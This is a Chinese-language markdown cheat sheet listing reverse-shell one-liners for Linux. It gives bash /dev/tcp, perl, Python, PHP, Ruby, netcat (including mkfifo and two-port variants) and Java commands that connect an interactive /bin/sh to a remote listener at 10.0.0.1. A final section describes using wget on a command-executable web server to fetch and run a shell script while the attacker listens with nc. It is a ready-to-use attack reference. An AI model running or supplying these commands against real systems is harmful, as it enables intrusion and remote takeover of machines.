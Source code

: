 ## Linux反弹shell的10种姿势  


### `bash`版本   

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### `perl`版本     

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


### `Python`版本  

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### `php`版本  

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### `ruby`版本  

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### `nc`版本  

```
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999

```

### `java`版本  

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 实例
可以执行命令的`web`服务器首先`wget`下载`123.sh`文件，再执行`bash 123.sh`，执行之前攻击机要用`nc`监听同样的端口。`123.sh`文件里面的`ip`地址是`nc`监听机器的`ip`地址
